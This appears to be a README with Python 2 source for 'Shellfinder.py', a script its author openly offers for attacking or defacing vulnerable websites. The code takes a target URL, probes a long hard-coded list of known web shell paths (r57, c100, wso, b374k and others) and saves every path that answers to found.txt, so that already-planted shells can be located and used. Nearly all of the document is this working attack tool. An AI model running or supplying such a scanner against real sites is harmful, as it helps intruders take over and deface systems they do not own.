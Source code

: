 # Shellfinder.py
Find shell in a vulerable website you wish to deface or attack

#!/usr/bin/python
import os, httplib
def banner():
    print '''
       _____ _          _ _   ______ _           _           
      / ____| |        | | | |  ____(_)         | |          
     | (___ | |__   ___| | | | |__   _ _ __   __| | ___ _ __ 
      \___ \| '_ \ / _ \ | | |  __| | | '_ \ / _` |/ _ \ '__|
      ____) | | | |  __/ | | | |    | | | | | (_| |  __/ |   
     |_____/|_| |_|\___|_|_| |_|    |_|_| |_|\__,_|\___|_| Made By Exodous   '''
     
def clearing():
    if os.name == 'nt':
        os.system('cls')
    else:
        os.system('clear')
        
banner()
website = raw_input('\n Enter the Website which you think is Vulerable >>>  ')
shells = ['/madspot.php','/mad.php','/404.php','/anon.php','/anonymous.php','/shell.php','/sh3ll.php','/madspotshell.php','/b374k.php','/c100.php','/priv8.php','/private.php','/cp.php','/cpbrute.php','/themes/404/404.php','/templates/atomic/index.php','/templates/beez5/index.php','/hacked.php','/r57.php','/wso.php','/WSO.php','/wso24.php','/wso26.php','/wso404.php','/sym.php','/symsa2.php','/sym3.php','/whmcs.php','/whmcskiller.php','/cracker.php','/1.php','/2.php','/sql.php','/gaza.php','/database.php','/a.php','/d.php','/dz.php','/cpanel.php','/system.php','/um3r.php','/zone-h.php','/c22.php','/root.php','/r00t.php','/doom.php','/dam.php','/killer.php','/user.php','/wp-content/plugins/disqus-comment-system/disqus.php','/cpn.php','/shelled.php','/uploader.php','/up.php','/xd.php','/d00.php','/h4xor.php','/tmp/mad.php','/tmp/1.php','/wp-content/plugins/akismet/akismet.php','/images/stories/w.php','/w.php','/downloads/dom.php','/templates/ja-helio-farsi/index.php','/wp-admin/m4d.php','/d.php',]
foundshells = []

for shell in shells:
    site = website.replace('http://','')
    host = site + shell
    conn = httplib.HTTPConnection(site)
    conn.connect()
    request = conn.request('GET',shell)
    response = conn.getresponse()
    if response.status == 200:
        print '\n\t[+] Shell found %s \n' %host
        foundshells.append(host)
    else:
        print '[-] Not Found %s ' %host
fpth = os.getcwd()
fpth2 = fpth + '/found.txt'
fob = open(fpth2,'w')
fob.close()
fob = open(fpth2,'a')
fob.writelines(foundshells)
print 'Found shells are in found.txt'
raw_input('\n Press enter to exit ... ')
exit()
